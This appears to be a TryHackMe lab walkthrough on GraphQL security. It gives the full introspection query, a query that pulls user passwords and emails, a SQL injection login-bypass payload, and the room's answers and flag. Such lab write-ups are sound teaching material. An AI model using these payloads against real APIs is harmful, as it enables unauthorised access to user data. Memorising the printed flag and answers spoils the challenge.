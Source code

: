 ```yaml
---
title: "GraphQL Exploitation Guide - TryHackMe Walkthrough"
date: 2025-05-11 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [graphql, web, api, introspection, sql-injection, tryhackme]
image:
  path: https://github.com/user-attachments/assets/3510a6de-dc85-4ec9-b7ec-b0751744a844
  alt: GraphQL Exploitation Guide Banner
---
```


# GraphQL Exploitation Guide

*"A comprehensive walkthrough of GraphQL vulnerabilities and exploitation techniques."*

## Introduction

This guide provides detailed solutions and methodologies for the GraphQL Exploitation room. While it focuses on the answers, it also explains the reasoning and techniques used to reach them. This is my first technical write-up, so I appreciate your understanding of any imperfections.

## Understanding GraphQL

### What is GraphQL?
GraphQL is a query language for APIs that provides a more efficient, powerful, and flexible alternative to REST. It allows clients to request exactly the data they need, nothing more and nothing less.

### Key Concepts
- Queries: Used to fetch data
- Mutations: Used to modify data
- Schema: Defines the API's capabilities
- Types: Define the structure of data

## GraphQL Introspection

GraphQL introspection is a powerful feature that enables clients to query the API's schema. This capability allows developers to explore an API's structure and capabilities without external documentation.

### Task 1: Identifying Missing Query
To find the missing query after User and XXXX, follow these steps:

1. Capture the login request using Burp Suite
2. Send the request to the Repeater
3. Modify the query to include introspection:
```json
{
  "query": "query IntrospectionQuery { 
    __schema { 
      queryType { name } 
      mutationType { name } 
      subscriptionType { name } 
      types { ...FullType } 
      directives { 
        name 
        description 
        args { ...InputValue } 
        locations 
      } 
    } 
  } 
  fragment FullType on __Type { 
    kind 
    name 
    description 
    fields(includeDeprecated: true) { 
      name 
      description 
      args { ...InputValue } 
      type { ...TypeRef } 
      isDeprecated 
      deprecationReason 
    } 
    inputFields { ...InputValue } 
    interfaces { ...TypeRef } 
    enumValues(includeDeprecated: true) { 
      name 
      description 
      isDeprecated 
      deprecationReason 
    } 
    possibleTypes { ...TypeRef } 
  } 
  fragment InputValue on __InputValue { 
    name 
    description 
    type { ...TypeRef } 
    defaultValue 
  } 
  fragment TypeRef on __Type { 
    kind 
    name 
    ofType { 
      kind 
      name 
      ofType { 
        kind 
        name 
        ofType { 
          kind 
          name 
        } 
      } 
    } 
  }"
}
```

4. Analyze the response using GraphQL Voyager (http://graphql-kit.com/graphql-voyager/)
5. Remove the HTTPS header before visualization

**Answer:** POST

### Task 2: User Information Disclosure
To find Bob's email address:

1. Use the captured request from Task 1
2. Modify the query to:
```json
{
  "query": "\n query ($username: String!) {\n users(username: $username) {\n id\n username\n password\n email\n }\n }\n ",
  "variables": {
    "username": "bob"
  }
}
```

**Answer:** bob@graphql.thm

## GraphQL SQL Injection

Navigate to http://graphql.thm/labs/lab2/ and follow these steps:

1. Capture the login request with test credentials
2. Modify the username parameter to test for SQL injection
3. Use the payload: `test' OR '1'='1`
4. Analyze the response to find the flag

**Answer:** GRAPHQL{sQl_1Nj3cti0n}

## Conclusion

This room demonstrates several critical GraphQL security concepts:
- Schema introspection and information disclosure
- SQL injection in GraphQL queries
- API endpoint enumeration
- Data structure analysis

Remember: Understanding the underlying technology is crucial for effective security testing and exploitation.

*"The best way to secure a system is to understand how it can be broken."* 